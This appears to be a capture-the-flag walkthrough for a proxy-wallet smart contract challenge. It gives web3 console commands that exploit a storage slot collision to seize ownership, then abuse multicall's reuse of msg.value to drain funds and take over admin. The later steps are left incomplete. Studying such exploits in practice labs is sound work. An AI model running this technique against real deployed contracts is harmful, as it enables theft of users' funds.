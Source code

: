 ## Steps
1. Become `owner` in implementation, in order to use `addToWhitelist`:
- `owner` is slot 0 in implementation, `pendingAdmin` is slot 0 in proxy; so set attacker(`player`) as `pendingAdmin`.
### Step 1 console code
- `fnSig = {name: 'proposeNewAdmin', type: 'function', inputs: [{type: 'address', name: '_newAdmin'}]}`
- `data = web3.eth.abi.encodeFunctionCall(fnSig, [player])`
- `await web3.eth.sendTransaction({from: player, to: contract.address, data})`
- confirm with: `await contract.owner()`; should be address of attacker

2. Use `addToWhitelist` to add attacker to `whitelisted`, in order to access implementation functions; `multicall` `execute` `setMaxBalance`
### Step 2 console code
- `await contract.addToWhitelist(player)`
- confirm with `await contract.whitelisted(player)`

3. Drain all funds from the implementation, in order to use `setMaxBalance`:
- use `deposit` via `multicall`, so that `msg.value` can be reused, in order to set `balances[attacker]` to maximum
- use `execute` to withdraw all funds to attacker
### Step 3 console code
- `depositData = await contract.methods["deposit()"].request().then(value => value.data)`

4. Use `setMaxBalance` to set value of `admin` in proxy to attacker
